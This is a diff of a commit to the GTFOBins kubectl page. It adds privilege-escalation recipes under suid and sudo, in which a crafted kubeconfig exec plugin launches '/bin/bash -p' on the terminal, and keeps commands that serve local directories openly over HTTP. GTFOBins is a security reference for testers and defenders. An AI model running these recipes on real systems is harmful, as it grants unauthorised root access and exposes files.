

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/kubectl.md, in a window 1280 px wide and 1400 px high, scrolled down 304 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 934 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update kubectl.md
Add privileged shell

```diff
--- a/_gtfobins/kubectl.md
+++ b/_gtfobins/kubectl.md
@@ -1,16 +1,76 @@
 ---
-description: It serves files from a specified directory via HTTP, i.e., `http://<IP>:4444/x/<file>`.
 functions:
   file-upload:
     - code: |
         LFILE=dir_to_serve
         kubectl proxy --address=0.0.0.0 --port=4444 --www=$LFILE --www-prefix=/x/
+      description: "It serves files from a specified directory via HTTP, i.e., `http://<IP>:4444/x/<file>`."
   suid:
     - code: |
         LFILE=dir_to_serve
         ./kubectl proxy --address=0.0.0.0 --port=4444 --www=$LFILE --www-prefix=/x/
+      description: "It serves files from a specified directory via HTTP, i.e., `http://<IP>:4444/x/<file>`."
+    - code: |-
+        cat << EOF > /tmp/config
+        apiVersion: v1
+        clusters:
+        - cluster:
+            server: https://test
+          name: kubernetes
+        contexts:
+        - context:
+            cluster: kubernetes
+            user: kubernetes-admin
+          name: kubernetes-admin@kubernetes
+        current-context: kubernetes-admin@kubernetes
+        kind: Config
+        preferences: {}
+        users:
+        - name: kubernetes-admin
+          user:
+            exec:
+              apiVersion: client.authentication.k8s.io/v1
+              command: /bin/bash
+              args:
+                - "-p"
+                - "-c"
+                - "/bin/bash -p </dev/tty >/dev/tty 2>/dev/tty"
+              interactiveMode: Always
+        EOF
+        ./kubectl get pods --kubeconfig=/tmp/config
+      description: "It pops a new privileged shell using custom configuration"
   sudo:
     - code: |
         LFILE=dir_to_serve
         sudo kubectl proxy --address=0.0.0.0 --port=4444 --www=$LFILE --www-prefix=/x/
+      description: "It serves files from a specified directory via HTTP, i.e., `http://<IP>:4444/x/<file>`."
+    - code: |-
+        cat << EOF > /tmp/config
+        apiVersion: v1
+        clusters:
+        - cluster:
+            server: https://test
+          name: kubernetes
+        contexts:
+        - context:
+            cluster: kubernetes
+            user: kubernetes-admin
+          name: kubernetes-admin@kubernetes
+        current-context: kubernetes-admin@kubernetes
+        kind: Config
+        preferences: {}
+        users:
+        - name: kubernetes-admin
+          user:
+            exec:
+              apiVersion: client.authentication.k8s.io/v1
+              command: /bin/bash
+              args:
+                - "-p"
+                - "-c"
+                - "/bin/bash -p </dev/tty >/dev/tty 2>/dev/tty"
+              interactiveMode: Always
+        EOF
+        ./kubectl get pods --kubeconfig=/tmp/config
+      description: "It pops a new privileged shell using custom configuration"
 ---
```
